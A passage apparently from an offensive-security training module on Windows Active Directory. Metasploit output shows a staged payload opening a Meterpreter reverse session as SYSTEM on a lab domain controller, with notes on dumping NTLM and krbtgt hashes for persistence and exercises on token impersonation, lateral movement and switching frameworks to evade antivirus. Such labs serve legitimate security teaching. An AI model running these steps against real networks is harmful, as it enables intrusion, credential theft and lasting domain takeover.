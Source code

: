 ```
C:\Windows\system32>
[*] https://192.168.119.120:443 handling request from 192.168.120.130; (UUID: kag4tbwv) Staging x64 payload (207502 bytes) ...
[*] Meterpreter session 4 opened (192.168.119.120:443 -> 192.168.120.130:53758)
```

> Listing 54 - Lateral movement to dc02

We received a new Meterpreter session.

```
C:\Windows\system32> exit
exit

meterpreter > background
[*] Backgrounding session 3...

msf5 exploit(multi/handler) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > sysinfo
Computer        : DC02
...
```

> Listing 55 - Interacting with SYSTEM shell on dc02

Once we interact with the session, we discover we now have SYSTEM integrity access to dc02. Excellent!

We have now fully compromised the evil.com domain and can extract the NTLM hashes of all domain users including _krbtgt_ to retain administrative access to the domain. In a larger environment, we could use this as a base to launch further attacks.

**Exercises**

1. Use the Meterpreter shell to list all access tokens and impersonate the token belonging to the _paul_ user.
2. While impersonating _paul_, perform lateral movement to dc02 and obtain a reverse Meterpreter shell.

**Extra Mile**

In this module, we performed the entire attack from Metasploit and primarily through the Meterpreter shell. Depending on the chosen tools and attack techniques, another framework may prove more favorable.

Evading security mitigations such as antivirus may also be easier with another framework due to a lack of signatures and behavioral detection against it.

Repeat the attack shown in this module with a different framework like PowerShell Empire or Covenant.

1
